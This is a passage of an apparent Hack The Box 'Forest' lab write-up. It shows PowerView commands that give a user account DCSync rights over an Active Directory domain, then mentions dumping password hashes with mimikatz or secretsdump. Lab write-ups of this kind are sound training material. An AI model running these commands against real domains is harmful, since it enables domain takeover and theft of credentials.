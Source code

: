 ![](/assets/img/HTB/easy/Forest/dacl.png)
- On bloodhound, it say to use powerview in which i will use [powerview from dev branch](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1) as it is most recommended
- After sometime on troubleshoting on commands as last command of Add-DomainObjectAcl doesnot seems to work
- The following command below works

```
import-module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'pass123@' -AsPlainText -Force;
$Cred = New-Object System.Management.Automation.PSCredential('HTB\blackninja', $SecPassword);
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity blackninja -Rights DCSync;
```

![](/assets/img/HTB/easy/Forest/dcsync.png)
- i try to login as user blackninja but it fails
- from documentation in bloodhound, it say we can use mimikatz to dump hashes 
- Alternative, let use secretdump to dump hashes as i cant login
